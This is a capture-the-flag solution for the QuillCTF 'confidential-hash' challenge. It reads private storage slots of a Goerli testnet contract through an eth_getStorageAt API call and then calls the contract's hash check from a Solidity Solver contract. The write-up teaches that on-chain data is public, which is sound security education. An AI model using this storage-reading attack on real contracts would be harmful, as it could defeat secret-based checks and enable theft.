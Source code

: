 [confidential-hash](https://quillctf.super.site/challenges/quillctf-challenges/ctf02)

# Solution:
* information is not private on the blockchain
* we can get the memory from specific slots using the alchemy API
* should get memory from slot 4 and 9
```
const options = {
  method: 'POST',
  headers: {accept: 'application/json', 'content-type': 'application/json'},
  body: JSON.stringify({
    id: 1,
    jsonrpc: '2.0',
    method: 'eth_getStorageAt',
    params: ['0xA37CE002C8167E65540079fcf6de44b02CA93a9C', '0x09', 'latest']
  })
};

fetch('https://eth-goerli.g.alchemy.com/v2/docs-demo', options)
  .then(response => response.json())
  .then(response => console.log(response))
  .catch(err => console.error(err));
```
* Deployed Confidential on Goerli at 0xA37CE002C8167E65540079fcf6de44b02CA93a9C
* 0x9371c02eefbd06113fb7e1ce6d27c3c7f6c8fc4d1b5f5f6b2620cd04d1610e3f at slot 4
* 0x23884ae3f28ba61fa99f4875e67f11b7c95e1f490cdf5f362c088e4ffaba0855 at slot 9
* call solve on the below
```
contract Solver {
    Confidential private constant confidentialContract = Confidential(0xA37CE002C8167E65540079fcf6de44b02CA93a9C);

    function _hash(bytes32 key1, bytes32 key2) private pure returns (bytes32) {
        return keccak256(abi.encodePacked(key1, key2));
    }

    function solve() external view returns (bool) {
        return confidentialContract.checkthehash(_hash(0x9371c02eefbd06113fb7e1ce6d27c3c7f6c8fc4d1b5f5f6b2620cd04d1610e3f, 0x23884ae3f28ba61fa99f4875e67f11b7c95e1f490cdf5f362c088e4ffaba0855));
    }
}
```
